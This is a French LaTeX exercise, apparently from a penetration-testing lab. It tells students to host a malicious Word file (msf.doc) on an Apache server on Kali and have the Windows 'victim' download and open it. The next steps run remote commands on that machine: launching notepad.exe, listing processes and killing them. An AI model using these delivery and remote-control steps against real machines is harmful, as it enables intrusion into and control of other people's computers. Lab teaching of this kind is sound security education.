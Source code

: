 \documentclass{article}
\begin{document}
\begin{enumerate}
\item On souhaite transférer ce fichier malveillant sur la machine de la victime. Comment procéder ? Nous allons utiliser Apache pour accomplir cela. Ouvrez un terminal en tant que root sur Kali et exécutez les commandes suivantes :
    \begin{itemize}
        \item \texttt{service apache2 start} pour démarre le serveur Apache
        \item \texttt{cp <chemin/msf.doc> /var/www/html} : que fait cette commande ? 
        \item \texttt{ls /var/www/html} : vous devriez voir le fichier \texttt{msf.doc} listé dans ce répertoire.
    \end{itemize}
    \begin{itemize}
        \item Depuis la machine Windows, ouvrez un navigateur et saisissez l'URL suivante : \texttt{IP\_KALI/msf.doc} afin de télécharger et installer le fichier \texttt{msf.doc} , ouvrir ce dernier et cliquer sur "activer la modification".
    \end{itemize}

\item Que remarquez-vous sur la machine Kali Linux ? Cliquer sur entrer et exécutez les commandes suivantes sur la machine Kali :
    \begin{itemize}
        \item \texttt{pwd} 
        \item \texttt{execute -f notepad.exe} 
        \item \texttt{ps}  
        \item \texttt{kill <PID>} : permet de tuer n'importe quel processus actif sur la machine Windows depuis Kali en spécifiant son PID (Process ID).
    \end{itemize}
\end{enumerate}
\end{document}
